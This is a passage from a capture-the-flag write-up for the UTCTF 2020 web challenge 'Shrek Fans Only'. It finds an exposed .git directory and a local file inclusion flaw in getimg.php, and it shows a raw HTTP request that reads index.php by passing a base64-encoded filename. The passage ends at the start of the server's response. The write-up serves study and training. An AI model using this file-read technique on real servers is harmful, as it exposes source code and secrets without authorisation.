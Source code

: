 # UTCTF 2020 – Shrek Fans Only

* **Category:** web
* **Points:** 50

## Challenge

> Shrek seems to be pretty angry about something, so he deleted some important information off his site. He murmured something about Donkey being too committed to infiltrate his swamp. Can you checkout the site and see what the status is?
>
> http://3.91.17.218/.git/
> 
> by gg

## Solution

The text of the challenge reminds something about versioning control systems. Connecting to `http://3.91.17.218/.git/` will spawn a HTTP `403 Forbidden`. So a *git* local repository is present, but it can't be accessed directly.

The main web page is the following.

```html
<!DOCTYPE HTML>
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="getimg.php?img=aW1nMS5qcGc%3D">
<div>There used to be something here but Donkey won't leave me alone<div>
</body>
</html>
```

So you can discover another endpoint: `http://3.91.17.218/getimg.php?img=aW1nMS5qcGc%3D`.

The value for the parameter is `aW1nMS5qcGc=` that base64 decoded will give `img1.jpg`. This endpoint is vulnerable to LFI and can be used to read files on the server.

For example you can use this to read the source code of the web pages.

`index.php` base64 encoded is `aW5kZXgucGhw`.

```
GET /getimg.php?img=aW5kZXgucGhw HTTP/1.1
Host: 3.91.17.218
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Date: Sat, 07 Mar 2020 19:57:33 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.1.20
Content-Length: 247
Connection: close
Content-Type: image/jpg

<!DOCTYPE HTML>
```